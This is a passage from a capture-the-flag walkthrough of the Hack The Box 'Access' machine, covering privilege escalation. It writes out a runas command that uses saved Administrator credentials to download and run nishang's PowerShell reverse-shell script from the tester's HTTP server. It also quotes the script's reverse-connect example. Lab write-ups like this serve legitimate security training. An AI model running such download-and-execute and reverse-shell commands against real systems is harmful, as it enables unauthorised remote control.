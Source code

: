 So we can try to get a reverse shell from `nishang` with user `Administrator`. I used `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

## Privilege Escalation:

### Step 1:
Started python server on my machine.
```
root@w0lf:~/CTF/HTB/Boxes/Access# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

### Step 2:
If we look at the Shell it gives us some of the examples.
```
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444

Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on 
the given IP and port. 
```

I copied the example and changed it to my IP and paste it at the bottom of the file.
![b1b602b986362e8727ebbe25b7b21232.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-access/bf400a7b73e0410ca78a0d5418b14d2b.png)

### Step 3:

How to use `runas`?
***Reference:***<https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771525(v=ws.11)>

I Started my Netcat listener.

```runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.3:8000/Invoke-PowerShellTcp.ps1')"```

![2a49fb6f23a4471feb5d7c6dd25223db.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-access/cc43dc6d229348ddac78b8df775b6d68.png)
We Owned root!!






